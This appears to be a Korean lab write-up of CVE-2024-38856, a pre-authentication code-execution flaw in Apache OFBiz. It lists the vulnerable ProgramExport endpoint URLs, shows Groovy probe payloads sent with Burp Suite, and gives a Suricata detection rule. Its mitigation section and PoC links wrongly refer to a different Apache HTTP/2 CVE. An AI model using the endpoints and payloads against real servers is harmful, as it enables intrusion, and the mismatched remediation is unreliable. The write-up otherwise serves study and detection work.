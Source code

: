 ```yaml
---
layout: default
title: cve-2024-38856
category: "Apache"
nav_order: 3
parent: cve
---
```


# cve-2024-38856
{: .no_toc }

Apache OFBiz Incorrect Authorization 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
Apache OFBiz에서 특정 화면 정의(screen definitions)파일이 사용자의 권한을 명시적으로 검증하지 않고, 엔드포인트 설정에 의존하여 접근을 허용해 화면 렌더링 코드를 실행할 수 있는 취약점

## 1.2 취약 대상
Apache OFBiz 버전 18.12.14 이전

## 1.3 공격 원리
- Apache OFBiz의 웹 애플리케이션에서 엔드포인트를 스캔하여 취약한 엔드포인트 식별
- 취약한 엔드포인트를 통해 접근한 공격자는 관련된 화면 정의 파일(ProgramExport View)에 접근
- 화면 정의 파일에 포함된 화면 렌더링 코드를 악용하여 임의의 악성 코드를 실행
![](../../assets/images/cve-2024-27316/attack.png)

---

## 1.4 환경 구성
- Victim: Ubuntu 22.0.4 (IP: 192.168.10.128)
- Attacker: Windows11 (IP: 192.168.9.1) <br>

Apache Server v2.4.52 설치 및 http2 프로토콜 사용 설정
```bash
## Apache 2.4.52 설치 및 환경설정
apt-get update
apt-get upgrade
sudo apt install openjdk-11-jdk
sudo apt install gradle ## gradle이란?

cd /usr/local/src
wget https://archive.apache.org/dist/ofbiz/apache-ofbiz-18.12.04.zip
unzip apache-ofbiz-18.12.04.zip

## Apache OFBiz 18.12.04 는 Gradle 5.0.0 이상 버전을 사용
cd /usr/local/src/apache-ofbiz-18.12.04/gradle/wrapper
wget https://raw.githubusercontent.com/gradle/gradle/v5.0.0/gradle/wrapper/gradle-wrapper.properties
wget https://github.com/gradle/gradle/raw/v5.0.0/gradle/wrapper/gradle-wrapper.jar

## 주의 사항 : localhost 가 아닌, 가상환경에서 서버 구동 시, 해당 가상환경 ip를 설정에 등록
vi /usr/local/src/apache-ofbiz-18.12.04/framework/security/config/security.properties
## 옵션 변경
protect-view.preprocessor=
## 활성화 옵션
default.error.response.view=none:
## 아래에 추가
host-headers-allowed=localhost,192.168.56.1
block-external-host-requests=false
allow-program-export=true

## Apache OFBiz 18.12.04 실행
cd /usr/local/src/apache-ofbiz-18.12.04
./gradlew cleanAll loadAll
./gradlew ofbiz 

## ----- HomePage ----- ##
접속 : https://ip:8443/myportal/control/main
id : admin
password : ofbiz
```

<br>구현 된 홈페이지 (192.168.56.1:443)
![](../../assets/images/cve/cve-2024-38856//homepage.PNG)

---

## 1.5 주요 내용
CVE-2024-38856의 핵심은 ProgramExport 엔드포인트가 인증 없이 접근 가능한 취약점
<br>이 엔드포인트는 외부에서 전달된 데이터를 Groovy Script로 실행할 수 있는 구조를 가지고 있어, 공격자가 특정 파라미터를 통해 코드 실행

{: .note-title }
> **ProgramExport**는 Apache OFBiz Framework에서 사용하는 Web Tools 중 하나로, 특정 기능이나 데이터를 처리 및 출력하는 데 사용한다. 이 엔드포인트는 주로 시스템 관리자가 다양한 데이터를 내보내거나 특정 프로그램을 통해 데이터 처리를 수행할 때 사용

---

## 1.6 공격 재현
Tool : Burp Suite v2024

## ProgramExport 엔드포인트 URL 접근
{: .no_toc }

Apache OFBiz에서 악용될 수 있는 URL은 TestService, view, showDateTime, main, forgotPassword
- example1 : https://192.168.56.1:8443/webtools/control/TestService/ProgramExport
- example2 : https://192.168.56.1:8443/webtools/control/view/ProgramExport
- example3 : https://192.168.56.1:8443/webtools/control/showDateTime/ProgramExport
- example4 : https://192.168.56.1:8443/webtools/control/main/ProgramExport
- example5 : https://192.168.56.1:8443/webtools/control/forgotPassword/ProgramExport

![](../../assets/images/cve/cve-2024-38856/TestService.png)


## Burp Suite 사용하여 groovyProgram에 파라미터값 전달
{: .no_toc }

Burp Suite를 활용하여 payload에 groovyProgram 파라미터 값을 삽입 후 테스트 <br>
groovyProgram=throw new Exception('CVE-2024-38856 TEST by Bite98');

![](../../assets/images/cve/cve-2024-38856/print_cve.png) <br>


테스트 확인 후, 시스템 정보()를 출력하는 파라미터값을 넣어 공격 진행
- groovyProgram=throw new Exception("Thread State: " + Thread.currentThread().getState());
- groovyProgram=throw%20new%20Exception%28%22Thread%20State%3A%20%22%20%2B%20Thread.currentThread%28%29.getState%28%29%29%3B

{: .note-title }
> **Thread.currentThread().getState()** 함수는 현재 스레드의 상태를 확인하여 예외를 통해 정보를 반환

![](../../assets/images/cve/cve-2024-38856/print_thread.png.png)

---

## 대응 패턴 적용
{: .no_toc }

- 신규 ET 패턴 1건

```c
alert http any any -> $HOME_NET any (
    msg:"ET WEB_SPECIFIC_APPS Apache OFBiz Pre-Auth Remote Code Execution Attempt (CVE-2024-38856)";
    flow:established,to_server;
    http.method;
    content:"POST";
    http.uri;
    content:"/webtools/control/";
    fast_pattern;
    startswith;
    pcre:"/^(?:TestService|view|showDateTime|main|forgotPassword)/R";
    content:"ProgramExport";
    endswith;
    http.request_body;
    content:"groovyProgram";
    startswith;
    reference:url,blog.sonicwall.com/en-us/2024/08/sonicwall-discovers-second-critical-apache-ofbiz-zero-day-vulnerability/;
    reference:cve,2024-38856;
    classtype:attempted-admin;
    sid:2054947;
    rev:1;
    metadata:affected_product Apache_OFBiz, attack_target Server, tls_state TLSDecrypt, created_at 2024_08_06, cve CVE_2024_38856, deployment Perimeter, deployment Internal, deployment SSLDecrypt, performance_impact Low, confidence High, signature_severity Major, updated_at 2024_08_06;
    target:dest_ip;
)
```

---

## 1.7 대응 방안
- Apache HTTP Server 버전 2.4.59 이상으로 업데이트
- nghttp2 라이브러리의 메모리 관리 로직 개선
- HTTP/2 프로토콜을 비활성화

--- 

## 1.8 참고 자료
- <a href="https://github.com/aeyesec/CVE-2024-27316_poc" target="_blank">PoC - Apache</a> <br>
- <a href="https://github.com/lockness-Ko/CVE-2024-27316" target="_blank">PoC - DoS</a>

---

[NVD]: https://nvd.nist.gov/vuln/detail/CVE-2024-38856
[Apache]: https://ofbiz.apache.org/security.html
